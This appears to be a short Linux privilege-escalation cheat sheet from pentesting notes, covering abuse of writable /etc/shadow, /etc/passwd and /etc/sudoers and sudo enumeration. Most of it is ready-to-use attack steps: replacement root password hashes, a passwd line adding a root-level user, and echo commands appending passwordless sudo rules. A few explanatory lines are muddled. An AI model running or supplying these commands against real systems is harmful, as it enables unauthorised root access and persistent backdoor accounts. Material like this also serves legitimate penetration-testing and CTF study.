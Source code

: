 **Writable /etc/shadow**

Generate a new password:

```sh
mkpasswd -m sha-512 newpassword
```

Edit the /etc/shadow file and replace the root password hash. Finally, switch user with new password. Here is the empty password hash

{% code overflow="wrap" %}
```sh
root:$6$1.kHoCdgGLxINgw$TQbdEgrYcctS4/o7EKtmWaxwBoOHaeU2nK4B66Any.4ksSyb5FFedubBtSs.Rc9DkxD02ju7RfK/I0U8MXdb50:17298:0:99999:7:::
```
{% endcode %}

#### Writable /etc/passwd

!!! info The /etc/passwd file contains information about user accounts. It usually only readable.

Get /etc/passwd permissions

```sh
ls -l /etc/passwd
```

Generate a new password

```sh
openssl passwd newpassword
```

Then, copy the root user row, replace username with and the "x" field with the new password to create new root user. Here is a new user with username is `lithonn` and password is empty (empty not "empty")

```sh
lithonn:lF/bBdY9ikuzY:0:0:root:/root:/bin/bash
```

#### Writable /etc/sudoers

```sh
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```

### Sudo

!!! info The `sudo` command allows user to run a program with root privileges. In some cases you may have permission to run some commands with sudo privileges without a password.

```sh
sudo -l
```

!!! warning Use the same command as in the output of the `sudo -l` command, without shortening.
